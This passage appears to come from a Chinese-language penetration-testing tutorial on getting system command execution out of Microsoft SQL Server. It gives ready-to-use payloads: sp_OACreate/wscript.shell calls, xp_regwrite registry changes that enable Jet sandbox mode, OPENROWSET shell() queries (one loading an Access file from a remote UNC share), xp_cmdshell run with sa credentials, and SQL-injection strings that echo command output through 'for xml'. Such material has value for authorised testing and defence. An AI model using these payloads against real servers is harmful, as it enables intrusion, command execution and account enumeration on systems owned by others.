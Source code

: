 附:SQL Server 提供了 sp_OACREATE 和 sp_OAMethod 函数,可以利用这两个函数调用 OLE 控件，间接获取一个 shell。使用 SP_OAcreate 调用对象 wscript。shell 赋给变量@shell，然后使用 SP_OAMETHOD 调用@shell 的属性 run 执行命令。

#### 3.JET 沙盒模式执行系统命令(Sandbox Mode)

在默认情况下 Jet 数据引擎不支持 select shell("net user ")这样的 SQL 语句，必须开启 JET 引擎的沙盒模式才能执行命令，先利用`xp_regwrite`存储过程改写注册表，然后利用 OpenRowSet 访问一个 ACCESS 数据库文件，再执行运行命令的 SQL 语句。

激活沙盒模式:

Windows 2003

```
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;-- 
```

Windows 2008 R2

```
exec  master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Wow6432Node\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0; 
```

Windows 2003 + SQL Server2000 沙盒模式执行命令的语句:

（Windows 2003 系统 c:\windows\system32\ias\目录下默认自带了 2 个 Access 数据库文件 ias.mdb/dnary.mdb,所以直接调用即可.）

```
select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user  >c:\test.txt ")'); 
```

Windows 2008 R2+SQL Server2005 沙盒模式执行命令的语句:

（ Windows 2008 R2 默认无 Access 数据库文件,需要自己上传,或者用 UNC 路径加载文件方能执行命令.）

```
select * from openrowset('microsoft.jet.oledb.4.0',';database=\\192.168.1.8\file\ias.mdb','select shell("c:\windows\system32\cmd.exe /c net user  >c:\test.txt ")'); 
```

（ SQL Server2008 默认未注册 microsoft.jet.oledb.4.0 接口,所以无法利用沙盒模式执行系统命令.）

#### 4.OPENROWSET 调用 xp_cmdshell 执行系统命令:

（在知道 sa 权限帐号密码情况下,db_owner 或者 public 的数据库权限使用 OPENROWSET 调用 xp_cmdshell 执行系统命令.）

```
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'p4ssw0rd', 'SET FMTONLY OFF execute master..xp_cmdshell "ver"'); 
```

### 小技巧:

使用 for xml 实现执行内容回显:

| for xml raw/auto | 适用于 SQL Server 2000 及以上版本 **(**附**:此法只能取首行数据,问题待解决.)** |

```
or 1 in(SELECT * FROM OPENROWSET('SQLOLEDB', 'trusted_connection=yes', 'SET FMTONLY OFF execute master..xp_cmdshell "set"'))for xml raw
or 1 in(SELECT * FROM OPENROWSET('SQLOLEDB', 'trusted_connection=yes', 'SET FMTONLY OFF execute master..xp_cmdshell "set"'))for xml auto 
```
